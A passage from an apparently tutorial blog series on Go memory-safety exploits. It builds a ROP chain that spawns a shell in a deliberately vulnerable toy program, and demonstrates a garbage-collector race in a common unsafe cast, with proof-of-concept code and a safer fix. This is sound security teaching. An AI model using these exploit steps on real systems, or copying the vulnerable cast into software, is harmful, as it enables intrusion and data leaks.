%        000000c000070f28:  0000000000000002  00000000004c0dd6
%        000000c000070f38:  0000000000000001  0000000000000001
%        000000c000070f48:  000000c000070fbc  000000000000000c
%        000000c000070f58:  000000c000070fa8  0000000000430c28 <runtime.printstring+120>
%        000000c000070f68:  000000000042ed97 <runtime.fatalthrow+87>  000000c000070f78
%        000000c000070f78:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
%        000000c000070f88:  000000000042ebd2 <runtime.throw+114>  000000c000070fa8
%        000000c000070f98:  000000c000070fc8  000000000042ebd2 <runtime.throw+114>
%        000000c000070fa8:  000000c000070fb0  0000000000458500 <runtime.throw.func1+0>
%        000000c000070fb8:  00000000004c1077  0000000000000005
%        000000c000070fc8:  000000c000070ff8  00000000004429dc <runtime.sigpanic+972>
%        000000c000070fd8: <00000000004c1077  0000000000000005
%        000000c000070fe8:  0000000000000000  000000c000072000
%        000000c000070ff8:  0000000000000000
%        runtime.sigpanic()
%        /usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000071008 sp=0xc000070fd8 pc=0x4429dc
%
%
%        Quite obvious from the big stack trace, we see that the program crashed. But more importantly, we see the win! output
%        right at the top, which means that the win function was indeed executed. We don't actually care about the program
%        crash, the objective was to decide which code should be executed and this was successful!
%
%
%
%%% -----------------------------------------------------------------------------
%
%        \section{Part 3}
%
%        Executing code on the stack
%
%        Following the last part of the series, you might have thought: what if we pipe actual machine instructions into the
%        program, and then use the address of this machine code on the stack (inside the buffer receiving the input data) instead
%        of the address of the win function. This way, we could execute arbitrary code of our choice, including just spawning
%        a shell and thus having a universal interface to run more code.
%
%        Indeed, this was possible not too much time ago. One would send the padding necessary to fill up the input buffer and
%        stack up to the stored return pointer, then an address a bit later in the stack, and then the machine code needed to
%        start a shell. If the padding was long enough, it would also be possible to put the code into the padding, reducing the
%        overall input data size.
%
%        Because the stack is always a bit unpredictable (for example, environment variables might get pushed onto the stack and
%        they could be different on each program run), the exact address of the shell code could vary slightly. And if we would
%        miss it by even a byte, the code would become corrupted and stop working.
%
%        To mitigate this, we could send a lot of NOP instructions (opcode 0x90 [[2]](references)) between the address and the shell code, and
%        then try to jump into the middle of those instructions. This way, we don't have to hit the exact correct byte, instead
%        the exploit also works if we jump to an address that is a few bytes before or after. This is because all possible
%        target addresses (within some range) would be NOP instructions, and the CPU would just follow along all NOP
%        instructions until it reaches the shell code and executes it. This technique is called the nop slide [[3]](references), because the CPU in
%        a way slides down a slope of NOPs.
%
%        The payload that we would inject could look like this:
%
%        ![Nop Slide Inject Payload](assets/payload.svg)
%
%
%        DEP and ASLR: mitigations against buffer overflows
%
%        Unfortunately, these days it isn't quite that easy anymore. Operating system developers have done a lot of work to
%        implement countermeasures against this simple code-on-the-stack exploit.
%
%        Data Execution Prevention [[7]](references) is a technique which assigns different permissions to the memory pages used by a program. There
%        are pages that can only be read (like literals and constants), pages that can be read and executed (like the program
%        instructions itself) and pages that can be written (e.g. the stack or heap). But the pages that can be written to can
%        not be executed! Different names for this are RW (read xor write) or NX (Non-eXecutable memory). This technique has been in
%        use by all major operating systems for years, and it effectively prevents us from writing our code onto the stack and
%        then executing it.
%
%        Another mitigation is Address Space Layout Randomization (ASLR) [[1]](references), which randomizes the addresses of dynamically linked
%        libraries, or maybe even functions inside the binary itself, when loading it into the RAM. This way, we can not use GDB
%        to analyze the binary locally and determine addresses where we might jump to, because on the exploit target (possibly
%        remote) the addresses would be completely different.
%
%        Fortunately for this proof of concept, Go does not really use ASLR. The binaries produced by the Go compiler have
%        deterministic addresses, and at least this small program gets statically linked so there are no dynamic libraries that
%        could be loaded at different addresses. We can see this by running some analysis on the binary file:
%
%        shell
%        readelf -l main
%
%        Elf file type is EXEC (Executable file)
%        Entry point 0x45d310
%        There are 7 program headers, starting at offset 64
%
%        Program Headers:
%        Type           Offset             VirtAddr           PhysAddr
%        FileSiz            MemSiz              Flags  Align
%        PHDR           0x0000000000000040 0x0000000000400040 0x0000000000400040
%        0x0000000000000188 0x0000000000000188  R      0x1000
%        NOTE           0x0000000000000f9c 0x0000000000400f9c 0x0000000000400f9c
%        0x0000000000000064 0x0000000000000064  R      0x4
%        LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
%        0x00000000000926ad 0x00000000000926ad  R E    0x1000
%        LOAD           0x0000000000093000 0x0000000000493000 0x0000000000493000
%        0x00000000000bd151 0x00000000000bd151  R      0x1000
%        LOAD           0x0000000000151000 0x0000000000551000 0x0000000000551000
%        0x0000000000015240 0x00000000000414c8  RW     0x1000
%        GNUSTACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
%        0x0000000000000000 0x0000000000000000  RW     0x8
%        LOOS+0x5041580 0x0000000000000000 0x0000000000000000 0x0000000000000000
%        0x0000000000000000 0x0000000000000000         0x8
%
%        Section to Segment mapping:
%        Segment Sections...
%        00
%        01     .note.go.buildid
%        02     .text .note.go.buildid
%        03     .rodata .typelink .itablink .gosymtab .gopclntab
%        04     .go.buildinfo .noptrdata .data .bss .noptrbss
%        05
%        06
%
%        ldd main
%        the program is not dynamically linked
%
%
%
%        Return2libc
%
%        But wait - didn't we in fact execute code in the last part of the series? Yes, we did! But it was code that was already
%        contained in the binary. We executed the win function that was compiled into the binary. This means that we didn't
%        jump to code that was on the stack (an RW-page), but instead we jumped into the .text segment of the program where all
%        the other machine instructions live, too (an RX-page).
%
%        By reusing code that is already in the binary, we can defeat Data Execution Prevention.
%
%        A generalization of this technique is called return2libc, where we would now jump to a function contained in the huge
%        C standard library libc. We could e.g. use the system function that allows us to execute arbitrary commands. However,
%        as mentioned before the binary produced by the Go compiler is statically linked, and it doesn't link against the libc
%        C library. Thus, we cannot use return2libc. And even if it were linked against libc, ASLR would do a decent job at
%        making it very hard to find out the correct addresses of libc functions.
%
%
%        Return oriented programming
%
%        We need a different approach: Return Oriented Programming (ROP). With ROP, we try to jump into code that is contained
%        in the binary just as with return2libc, but we jump to a location that contains preferably only one or at most a few
%        machine instructions and a return instruction.
%
%        Recall that the return instruction ret actually is a simple pop rip. This means that if we execute ret, and then
%        another ret, we will simply fetch the next processor word from the stack and jump to that address. Now, this enables
%        us to chain together small pieces of code by putting the addresses of these code snippets on the stack, one after
%        another. The important requirements for this are that the code snippets end with a ret instruction, and do not modify
%        the stack pointer rsp, because modifying the stack pointer would destroy our chain of code snippets. Using these
%        snippets, we can craft a program almost like manually coding in assembly, but with only a limited set of assembly
%        instructions available (the ones we find in the binary).
%
%        With these code snippets, we can do arbitrary stuff, including calling syscalls. Syscalls give us the power to e.g.
%        read data into a buffer, or change the execution permissions of memory pages used by the program.
%
%        To find suitable code snippets, we can either manually decompile the complete binary (very tedious), or use a helper
%        tool like ROPgadget or Ropper. I used Ropper here:
%
%% github sashs/Ropper no-readme %
%
%        We analyze the short Go program known from the last part:
%
%        go
%        // initialize the reader outside of the main function to simplify POC development, as there are less local variables
%        // on the stack.
%        var reader = bufio.NewReader(os.Stdin)
%
%        func main()
%        // this is a harmless buffer, containing some harmless data
%        harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'
%
%        // create a slice of length 512 byte, but assign the address of the harmless data as its buffer.
%        // use the reflect.SliceHeader to change the slice
%        confusedSlice := make([]byte, 512)
%        sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(confusedSlice))
%        harmlessDataAddress := uintptr(unsafe.Pointer((harmlessData[0])))
%        sliceHeader.Data = harmlessDataAddress
%
%        // now read into the confused slice from STDIN. This is not quite as bad as a gets() call in C, but almost. The
%        // function will read up to 512 byte, but the underlying buffer is only 8 bytes. This function is the complete
%        // vulnerability, nothing else needed
%        ,  = reader.Read(confusedSlice)
%
%
%
%        The following command shows quite a lot of ROP gadgets (snippets) that are contained in our binary:
%
%        shell
%        ropper --file main --search "%"
%        0x000000000041996b: adc al, 0; ret;
%        0x000000000042dee5: adc al, 0x1f; mov dword ptr [rsp + 0x28], edx; mov qword ptr [rsp + 0x30], rax; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
%        0x000000000042da80: adc al, 0x24; call 0x2d660; mov rbp, qword ptr [rsp + 0x40]; add rsp, 0x48; ret;
%        0x000000000044ba26: adc al, 0x24; call 0x4b190; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
%        0x000000000046c199: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
%        0x000000000046bffa: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x28]; add rsp, 0x30; ret;
%        0x00000000004614fa: adc al, 0x24; call rcx;
%        [...]
%
%
%        Ropper even provides some automated search tools, but in this specific case they couldn't automatically find a complete
%        exploit chain, so I had to dig in using my own hands.
%
%
%        POC: Spawning a shell
%
%        Putting the ROP techniques from above into play, the plan looks like this:
%
%        1. Set the executable and writable flags for a memory page belonging to the program
%        2. Write some code that spawns a shell into the page
%        3. Jump to that code
%
%        The following steps are based on the excellent blog articles [[4, 5, 6]](references). Give them a read for even more details on ROP
%        chains and exploit development.
%
%
%        **Step 1: Get a memory page with RWX permissions**
%
%        To do this, we use the mprotect syscall. Its man page explains the usage:
%
%        c
%        int mprotect(void *addr, sizet len, int prot);
%
%        mprotect() changes the access protections for the calling process's memory pages containing any part of the address
%        range in the interval [addr, addr+len-1]. addr must be aligned to a page boundary.
%
%
%        This means we need to provide the address of the region we want to change, the desired size, and the permission to set.
%        These permissions work similar to file system permissions, so the integer value 7 means RWX.
%
%        I use the Python Exploit Development Assistance (PEDA) for GDB. Follow the instructions on the
%        [PEDA project page](https://github.com/longld/peda) to install it.
%
%        With it, we can use the vmmap command in GDB PEDA to find a suitable memory page:
%
%        gdb
%        gdb-peda vmmap
%        Start              End                Perm	Name
%        0x00400000         0x00493000         r-xp	main
%        0x00493000         0x00551000         r--p	main
%        0x00551000         0x00567000         rw-p	main
%        0x00567000         0x00593000         rw-p	[heap]
%        [...]
%
%
%        The first (r-x) page is the one containing the code. I choose the third page, starting at 0x00551000. It already has
%        the RW permissions, but we need to add X to make it executable. We can choose 0x100 (256 bytes) as size as this will
%        be more than enough space for the shell code.
%
%        How do syscalls work? The general idea is to execute the syscall instruction. Before that, we need to put the syscall
%        number into rax, and set up the arguments to the function. The [Linux x8664 syscall table](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall64.tbl)
%        shows that the mprotect syscall has number 10 (0xa).
%
%        We set up the parameters according to the x8664 calling convention: the first parameters get passed in registers rdi,
%        rsi, rdx, rxc, r8, r9, the remaining ones through the stack. The return value is passed back in rax. This means
%        that we will need to set up the following situation when executing the syscall instruction:
%
%        - rax: 0xa
%        - rdi: 0x00551000
%        - rsi: 0x100
%        - rdx: 0x7
%
%        For this, we now need to find some suitable gadgets in the huge output of Ropper. First, let's try to set rax to 10.
%        There is probably no mov rax, 10, so instead what could be useful is a mov rax, 0 / sub rax, rax / xor rax, rax
%        to set rax to zero, and then add rax, 1 to slowly increase it up to 10.
%
%        I could find a mov eax, 0; ret; gadget at address 0x000000000045b900 and debugging in GDB showed that this is indeed
%        enough to set the whole rax to zero (eax is the lower 32 bit of the 64 bit register rax). Then, combining it with the
%        add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret; gadget applied 5 times we can increment rax to 10. The gadget
%        will also move the eax value to some address in memory but we can just ignore that.
%
%        For rdx and rsi, we can go the easy way and just pop them from the stack, meaning we just put the pop gadget and the
%        value directly behind it. Very convenient. The gadgets look like this: pop rdx; adc al, 0xf6; ret;. They also
%        increment rax through the adc instruction, but if we set up rdx and rsi before setting up rax this is not a
%        problem because we initialize it to zero anyways.
%
%        For setting rdx, I also found pop rdx; xor ah, byte ptr [rsi - 9]; ret;. We could apply it twice to change back the
%        xor operation on rax, but this gadget reads from an address determined through rsi which will segfault in this
%        context.
%
%        The hardest is finding a gadget to set rdi. There is pop rdi; sete byte ptr [rsp + 0x10]; ret;, but this will set
%        a memory address near the stack pointer with the second instruction and thus mess up the ROP chain. The only other good
%        gadget option is pop rdi; dec dword ptr [rax + 0x21]; ret;,  but this decrements a memory address determined by rax.
%        In theory, we don't need to care about this address, but in my experiments the address would always be invalid and
%        thus crash the program too early.
%
%        I found a solution using the pop rax; or dh, dh; ret; gadget. It allows to set rax directly and therefore also makes
%        the above rax increment workaround unnecessary. I leave it in anyways. The important part is, we can now set rax to
%        some dummy address before executing the pop rdi gadget, and then the program does not crash. I use the address of the
%        fourth memory page from above, the heap, for this: 0x00567000.
%
%        Finally, we need the syscall instruction itself. Fortunately, this is straightforward as there is a syscall; ret;
%        gadget.
%
%        Now we can put together the gadget addresses and values. Before them, we put the same padding to offset to the stored
%        return address on the stack. I use the Python pwntools to have some more convenient functions in the exploit script.
%
%        python
%        eax0 = 0x000000000045b900  mov eax, 0; ret;
%        inc2rax = 0x0000000000419963  add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret;
%        poprdx = 0x000000000040830c  pop rdx; adc al, 0xf6; ret;
%        poprsi = 0x0000000000415574  pop rsi; adc al, 0xf6; ret;
%        syscall = 0x000000000045d329  syscall; ret;
%        poprax = 0x000000000040deac  pop rax; or dh, dh; ret;
%        poprdi = 0x000000000040eb97  pop rdi; dec dword ptr [rax + 0x21]; ret;
%
%        addresses
%        buf = 0x00551000  use vmmap in GDB to find it
%        dummy = 0x00567000  heap
%
%        padding
%        payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
%
%        mark memory page at buf rwx
%        payload += p64(poprax)  sete in poprdi mitigation
%        payload += p64(dummy)
%        payload += p64(poprdi)  1ST ARGUMENT
%        payload += p64(buf)  ADDRESS
%        payload += p64(poprsi)  2ND ARGUMENT
%        payload += p64(0x100)  SIZE
%        payload += p64(poprdx)  3RD ARGUMENT
%        payload += p64(0x7)  RWX
%        payload += p64(eax0)  SET RAX = 0
%        payload += p64(inc2rax) * 5  SET RAX = 10
%        payload += p64(syscall)  SYSCALL
%
%
%        Executing the program with this input will mark the memory page with RWX permissions. We can verify this in GDB using
%        the vmmap command:
%
%        gdb
%        gdb-peda vmmap
%        Start              End                Perm	Name
%        [...]
%        0x00551000         0x00567000         rwxp	main
%        [...]
%
%
%
%        **Step 2: Write shell code into the page**
%
%        To read in the shell code, we use the read syscall. Its documentation states the following:
%
%        c
%        ssizet read(int fd, void *buf, sizet count);
%
%        read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.
%
%
%        We can use the same technique to spawn the syscall as above. The syscall table shows that this time we need to call
%        the syscall with number 0. The file descriptor for standard input also has the number 0. Thus, we need to create the
%        following register situation:
%
%        - rax: 0x0
%        - rdi: 0x0
%        - rsi: 0x00551000
%        - rdx: 0x100
%
%        Conveniently, we already have the ROP gadgets needed and only need to rearrange:
%
%        python
%        payload += p64(poprax)  sete in poprdi mitigation
%        payload += p64(dummy)
%        payload += p64(poprdi)  1ST ARGUMENT
%        payload += p64(0x0)  STDIN
%        payload += p64(poprsi)  2ND ARGUMENT
%        payload += p64(buf)  ADDRESS
%        payload += p64(poprdx)  3RD ARGUMENT
%        payload += p64(0x100)  SIZE
%        payload += p64(eax0)  SET RAX = 0
%        payload += p64(syscall)  SYSCALL
%
%
%
%        Now, we have to provide some code that actually spawns a shell. This 27 bytes assembly program will spawn /bin/sh. It
%        is taken from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-806.php).
%
%        python
%        http://shell-storm.org/shellcode/files/shellcode-806.php
%
%
%        We send it right after the payload in the resulting python script.
%
%
%        **Step 3: Jump to the code**
%
%        Running the code we just read in is as simple as jumping to it. And jumping to it means we only have to provide its
%        address as the next return address:
%
%        python
%        payload += p64(buf)
%
%
%        If we run the final exploit, we get the following output:
%
%        shell
%        johannes@host-pc ~  ./exploitrop.py
%        [+] Starting local process './main': pid 75369
%        [*] Switching to interactive mode
%        id
%        uid=1000(johannes) gid=1000(johannes) groups=1000(johannes),54(lock),1001(plugdev)
%
%
%
%        We have successfully spawned and control a shell. It runs in the same context as the program did, that is the user
%        context here. In a next step, we could try to run a local root exploit to escalate privileges.
%
%
%
%%% -----------------------------------------------------------------------------
%
%        \section{Part 4}
%
%        Garbage Collection
%
%        First, let's quickly go through garbage collection. Go offers memory management to the programmer. It automatically
%        allocates memory for object instances or values, such as integers, slices, or structs. It also keeps track of whether
%        those objects are still in use, and frees the memory when they aren't anymore.
%
%        The Go garbage collector runs in the background as its own Goroutine. In fact it's several Goroutines. The garbage
%        collector can be triggered manually by calling runtime.GC(), but usually it runs automatically when the heap doubles
%        its size. This size threshold can be adjusted with the GOGC environment variable. It is set to a percentage. The
%        default is 100, meaning the heap has to grow by 100% to trigger the garbage collection. Setting it to 200 for example
%        would mean that the collection is only started when the heap has grown to three times the previous size. On top of the
%        size condition there is also a timing condition: as long as the process is not suspended, the garbage collector will run
%        at least once every two minutes.
%
%        Go uses a [Mark-and-Sweep garbage collector](https://en.wikipedia.org/wiki/Tracinggarbagecollection). This type of
%        garbage collection consists of two phases:
%
%        1. Mark: by recursively following all references, starting from variables in scope, reachable heap objects are marked
%        2. Sweep: objects that are not marked are freed
%
%        These steps can be seen in the following figure:
%
%        ![Mark and Sweep Garbage Collection](assets/gc.png)
%
%        The light blue boxes in the heap are objects that are reachable (through the references shown by the arrows). The white
%        objects are unreachable and will be freed in the sweep phase.
%
%
%        Explicit casting using unsafe pointers
%
%        Now, we will look at the most common usage pattern for unsafe.Pointer in real-world open-source Go code: casting a
%        slice of some type or string into a slice of some other type. Let's say we wanted to convert a string to a []byte
%        slice in-place, that is reusing the string memory instead of copying it into a new slice allocation.
%
%        A frequent pattern to do this looks like this:
%
%        go
%        func unsafeStringToBytes(s *string) []byte
%        sh := (*reflect.StringHeader)(unsafe.Pointer(s))
%        sliceHeader := reflect.SliceHeader
%        Data: sh.Data,
%        Len:  sh.Len,
%        Cap:  sh.Len,
%
%        return *(*[]byte)(unsafe.Pointer(sliceHeader))
%
%
%
%        The function gets a *string pointer (sometimes it will also be a direct string) and returns a []byte slice. Let's
%        look at what it does, line by line.
%
%        First, a reflect.StringHeader is created from the string. The StringHeader is Go's internal representation of a
%        string. It is very similar to the reflect.SliceHeader that we saw in the previous posts of this series:
%
%        go
%        type StringHeader struct
%        Data uintptr
%        Len  int
%
%
%
%        The only difference is that there is no Cap field. In fact, strings in Go are by most means just a read-only []byte
%        slice. There are some differences, for example that range will iterate over runes instead of bytes, where a rune is
%        a Unicode code point. Because strings in Go are encoded in UTF-8, a Unicode code point might need multiple bytes (like
%        the German umlaut ä), and in that case range will read multiple bytes in one iteration. But in other ways, like the
%        length, strings behave like []byte slices. For example, len("ä") is 2, even if the string has only one character.
%        You can read more on this topic in the [Go strings documentation](https://blog.golang.org/strings).
%
%        When we have a variable of type string in Go, it points to a reflect.StringHeader structure, which in turn has a
%        pointer to the underlying byte-array holding the string data in its Data field. To get the StringHeader, we cast
%        it from an unsafe.Pointer which in turn is created by casting the string pointer. If the function would have received
%        a string instead of *string, we would have needed to do unsafe.Pointer(s) here, but the rest would stay the same.
%
%        Now, a *reflect.SliceHeader is created from scratch, by a composite literal. The Data and Len fields are just
%        copied from the StringHeader, and Cap is set to the same value as Len.
%
%        Lastly, we cast the *reflect.SliceHeader into a *[]byte, again using an intermediate unsafe.Pointer object. The
%        *[]byte is dereferenced and returned.
%
%        Thus the function is casting a string into a []byte object.
%
%
%        First problem: implicit read-only slices
%
%        Remember that the Go documentation said that strings
%        are **read-only** []byte slices? Well, that could turn into a problem here! The []byte object returned by the
%        function is not read-only anymore, so the compiler will not complain if we modify its contents:
%
%        go
%        func main()
%        s := "Hello"
%        b := unsafeStringToBytes(s)
%
%        b[1] = "a" // this will crash
%
%        fmt.Println(b)
%
%
%
%        The reason strings are read-only is because when we create a string like in the example above, the actual string literal
%        (the Hello data) is placed in a special section in the binary file produced by the compiler. When the program is run,
%        this section is probably mapped into a read-only memory page. Therefore, the Data field in the StringHeader and
%        SliceHeader structures will contain an address inside that read-only page.
%
%        If we now change the slice with b[1] = "a", we attempt to change a read-only memory page. The operating system will
%        prevent this and the result is a SIGSEGV segmentation fault, crashing the program.
%
%        The fact that this is a memory access violation that the compiler will not notice since we skipped its checks when we
%        used unsafe.Pointer is unfortunate, but a careful programmer could in theory make sure that all usages of the unsafe
%        cast function will never change the resulting slice. At all. I think this is a pretty dangerous assumption to make and
%        sooner or later there will be a programmer adding code that changes the slice. Therefore the casting pattern above
%        should be avoided at all costs.
%
%        But there is a second, much more subtle and dangerous problem in the code above.
%
%
%        Garbage collector race introduced by slice and string header literals
%
%        Rule 6 of the [unsafe package documentation](https://golang.org/pkg/unsafe/) specifically states that "A program
%        should not declare or allocate variables of these struct types." Why is that?
%
%        When the garbage collector runs the mark phase, it follows pointer references to recursively mark the objects referenced
%        by the pointer. An unsafe.Pointer and the address stored in the Data field of a valid StringHeader or SliceHeader
%        will do the same. This means that sh.Data in the unsafe function above will in fact be treated as a reference value,
%        therefore the garbage collector will not free the underlying array.
%
%        However, plain uintptr and invalid slice or string header values are not treated as references.
%
%        Whenever the address of a value is only stored in variable of type uintptr (not additionally in any pointer types),
%        the garbage collector will not mark the referenced object and therefore free it. The freed memory might be reused with
%        new variables, or the memory page might simply be unmapped, or anything else might happen. Importantly, objects that are
%        only reachable by using an address that was stored in a uintptr variable must be treated as gone.
%
%        Unsafe usage rule 2 states that only a "conversion of an unsafe.Pointer to a uintptr (but not back to Pointer)"
%        is allowed. The part in parenthesis is important. If we create an unsafe.Pointer object from a previously stored
%        uintptr value, that unsafe.Pointer is a potentially dangling pointer, and dereferencing is not a safe operation!
%
%        There are some cases where unsafe.Pointer objects are created from pointer arithmetic on uintptr values, but those
%        calculations must happen in the same statement as creating the pointer. We must never store a reference to something
%        only in a uintptr value.
%
%        Now, let's revisit the code example above.
%
%        go
%        func unsafeStringToBytes(s *string) []byte
%        sh := (*reflect.StringHeader)(unsafe.Pointer(s))
%        sliceHeader := reflect.SliceHeader
%        Data: sh.Data,
%        Len:  sh.Len,
%        Cap:  sh.Len,
%
%
%        // At this point, s is no longer used. There is a copy of the address of
%        // its underlying array in sliceHeader.Data however, and since sliceHeader
%        // was not created from an actual slice, the GC does not treat the address
%        // as a reference. Therefore, if the GC runs here it will free s.
%
%        return *(*[]byte)(unsafe.Pointer(sliceHeader))
%
%
%
%        At the point of the comment, the garbage collector can potentially run. Remember that it is triggered by heap usage
%        growth, and runs concurrently. If the function is used within a program that uses several Goroutines, the garbage
%        collector can essentially trigger at any point, including the one with the comment.
%
%        When it runs, it will free string s because it is no longer used. When the []byte slice is created in the next line,
%        its Data field will contain an invalid address. It might now point to an unmapped memory page, or simply to some
%        undefined position in the heap that might get reused later on.
%
%
%        PoC: Exploiting this GC race condition
%
%        To see what can happen with this, let's look at the following proof-of-concept code. First, I add the following line
%        at the position of the comment above:
%
%        go
%        time.Sleep(1 * time.Nanosecond)
%
%
%        This just makes the exploit a bit more reliable, but is not strictly needed. Next, I add a Goroutine that will just use
%        up more and more heap and constantly drop the references to that allocated memory. This will regularly trigger the
%        garbage collector.
%
%        go
%        func heapHeapHeap()
%        var a *[]byte
%        for
%        tmp := make([]byte, 1000000, 1000000)
%        a = tmp
%        = a
%
%
%
%
%        Finally, the main Goroutine does the following:
%
%        go
%        reader := bufio.NewReader(os.Stdin)
%        count := 1
%        var firstChar byte
%
%        for
%        s,  := reader.ReadString('n')
%        if len(s) == 0
%        continue
%
%        firstChar = s[0]
%
%        // HERE BE DRAGONS
%        bytes := unsafeStringToBytes(s)
%
%        ,  = reader.ReadString('n')
%
%        if len(bytes) > 0  bytes[0] != firstChar
%        fmt.Printf("win! after d iterationsn", count)
%        os.Exit(0)
%
%
%        count++
%
%
%
%        It initializes a reader to read data from stdin. Then it repeatedly reads two lines from it in a loop. A counter is
%        used to count how many loops are needed to succeed. The firstChar variable is set to the first char from the first
%        line that is read.
%
%        Then, the first line (a string) is converted to a []byte slice using the unsafe casting function from above. At this
%        point, bytes and s should be the same string. Particularly, the bytes[0] should equal firstChar.
%
%        After the conversion, the second line is read. The result from ReadString is not even used, but the important part of
%        this is that if the garbage collector was run inside unsafeStringToBytes, then ReadString will reuse the heap space
%        that was previously freed.
%
%        Lastly, we check if bytes[0] is actually equal to firstChar, and if it is not we have successfully created a data
%        confusion by exploiting a garbage collector race condition. The number of loop executions needed is printed at the end.
%
%        Running this program can have two different results:
%
%        1. The garbage collector finds an incorrect address in the heap and crashed the program with a hint to a possible
%        incorrect usage of unsafe.Pointer
%        2. It succeeds with the win! message
%
%        As long as the garbage collector does not trigger at the critical point in the unsafe cast function, the loop will just
%        run forever.
%
%        The first, crashing case happens when the garbage collector triggers inside the unsafe cast function, and again within
%        the second ReadString call in the PoC code. At that point, bytes will be a seemingly valid []byte slice, but its
%        Data field will point to previously freed memory.
%
%        The second, succeeding case will happen if the garbage collector triggers only inside the unsafe cast function. In that
%        case, the bytes slice will be a dangling slice pointing into the freed heap. Then, the second ReadString will reuse
%        that heap space, and provided that we sent a different string as second line, the first byte in the bytes slice will
%        now be a different character.
%
%        To achieve the alternating, but infinite input data I use the following Python script:
%
%        python
%        !/usr/bin/env python3
%
%        import errno
%        from signal import signal, SIGPIPE, SIGDFL
%        signal(SIGPIPE,SIGDFL)
%
%        try:
%        while True:
%        print("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
%        print("BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB")
%        except Exception:
%        pass
%
%
%        It simply sends alternating A and B lines, and ignores IO exceptions caused by the pipe closing abruptly when the
%        Go program crashes (which would spam the terminal with some Python error messages).
%
%        The PoC is run like this:
%
%        shell
%        ./exploit.py | ./main
%        win! after 51446 iterations
%
%
%        In my experiments, the program would crash with condition 1 about 10% of the time, and succeed in 20,000 to 100,000
%        iterations otherwise.
%
%
%        Why is this a problem? A threat model
%
%        Now, all of this might seem rather staged and a succeeding memory confusion after 50,000 iterations on average might not
%        seem that often either. But in fact this is probably the most dangerous vulnerability of the ones shown in this blog
%        series.
%
%        First, the function that contains the actual vulnerability, unsafeStringToBytes, is taken from real-world Go code.
%        There are hundreds of times this code pattern is used in open-source Go libraries, and taking into account that they
%        are reused across multiple projects, there are actually tens of thousands of times this is used in the 500 most starred
%        open-source Go projects.
%
%        Unlike in part 3 of this series, we didn't gain remote code execution with this exploit PoC. We didn't even violate the
%        read-only nature of the slice returned from unsafeStringToBytes. And the exploit is not even particularly reliable, it
%        takes thousands of iterations until the confusion happens once and sometimes the program even just crashes. Lastly, we
%        added the nanosecond sleep, further increasing the likelihood of the confusion to happen.
%
%        But risk is a combination of likelihood and impact, and the impact of this problem is potentially disastrous.
%
%        First, let's create a potential real-world use case for analysis, set the likelihood in perspective, and then talk
%        about the impact. Imagine a server application written in Go. It handles incoming requests, does some internal
%        calculations and creates an output that is sent back to the client. Of course the application holds some private state,
%        imagine credentials to the database backend or private key data for example. Let's also say that there are 1,000
%        requests coming in each second. That number of requests is not low, but also not extremely high.
%
%        Let's ignore the case of crashing the program for now, since for this threat model assessment we can just assume that
%        if the server application crashes, some daemon supervisor will just restart it. We can think of the loop in the exploit
%        proof of concept as a similar thing to the requests that are coming in. Some code path will be executed for every
%        request, and this will be kind of like a loop iteration. Furthermore, if we get a memory confusion every 50,000 requests,
%        that will add up to a bit more than one confusion per minute. The nanosecond sleep will make the confusion more likely,
%        but still this might occur every few minutes.
%
%        Now, if such a memory confusion happens, there might be some read-only slice that contains unexpected data. If the
%        server application happens to use that slice for creating the response output that is sent to the user, even with some
%        intermediate conversions in between, the application might server unexpected memory contents back to the user. So with
%        this vulnerability in place, a user might suddenly, and randomly, get some scrambled data instead of an HTML response,
%        and if that user were to look into the data they might find the application secrets. This is a clear information leak
%        vulnerability, and the fact that it is caused by widely used code makes it very dangerous.
%
%
%        The "correct" way of in-place slice casting using the unsafe package
%
%        There is a "correct" way to cast slices without copying. Whether this is really worth it has to be decided in the
%        special case, but we can at least propose a safer version of the vulnerable casting function above.
%
%        go
%        func saferStringToBytes(s *string) []byte
%        // create an actual slice
%        bytes := make([]byte, 0, 0)
%
%        // create the string and slice headers by casting. Obtain pointers to the
%        // headers to be able to change the slice header properties in the next step
%        stringHeader := (*reflect.StringHeader)(unsafe.Pointer(s))
%        sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(bytes))
%
%        // set the slice's length and capacity temporarily to zero (this is actually
%        // unnecessary here because the slice is already initialized as zero, but if
%        // you are reusing a different slice this is important
%        sliceHeader.Len = 0
%        sliceHeader.Cap = 0
%
%        // change the slice header data address
%        sliceHeader.Data = stringHeader.Data
%
%        // set the slice capacity and length to the string length
%        sliceHeader.Cap = stringHeader.Len
%        sliceHeader.Len = stringHeader.Len
%
%        // use the keep alive dummy function to make sure the original string s is not
%        // freed up until this point
%        runtime.KeepAlive(s)  // or runtime.KeepAlive(*s)
%
%        // return the valid bytes slice (still read-only though)
%        return bytes
%
%
%
%        This is a rather complicated process, but here are the important parts:
%
%        1. The bytes slice that will be returned at the end is created as an actual, valid slice using the make function.
%        It is not created by casting a plain header structure that was created as a composite literal. This ensures that
%        Go will treat the address stored in sliceHeader.Data as if it were a "real" pointer
%        2. Subsequently, the sliceHeader instance is created by casting as stated in the unsafe documentation
%        3. sliceHeader length and capacity are explicitly set to zero while the Data address still points to the old
%        underlying array. This is only necessary if the slice has not just been created. Decreasing the length and capacity
%        is a safe operation, and it ensures that if the garbage collector runs just after the switch of Data it will not
%        run past the slice end. This is explained in further detail below.
%        4. The StringHeader fields are copied in this order: Data, then Cap, then Len
%        5. Using runtime.KeepAlive, we tell the garbage collector that the original string s should not be freed up until
%        this point. This ensures that the underlying data array will not be freed before it is referenced by the
%        bytes slice.
%
